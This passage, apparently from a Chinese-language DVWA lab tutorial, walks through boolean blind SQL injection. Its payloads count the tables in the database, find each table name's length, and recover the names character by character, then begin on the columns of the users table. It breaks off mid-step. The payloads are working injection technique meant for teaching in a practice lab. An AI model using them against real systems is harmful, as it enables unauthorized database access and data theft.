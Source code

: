 ```
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2 #
```

2.盲注查询库内第一个表表名的长度

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))<15 #
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=9 #
```

3.盲注查询库内第一个表的表名

```
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))='g' # 
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))='u' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),3,1))='e' #
依照此逻辑可以依次推出余下字符
```

接下来也可以推第二张表

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=5 #
```

```
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))='u' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))='s' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),3,1))='e' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),4,1))='r' #
1' and (substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),5,1))='s' #
```

#### 5.2.3 盲注列名

逻辑与上文是一样的，三步骤。

1.判断users表中有多少列。


```
1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 #
```

2.判断每一列的列名长：
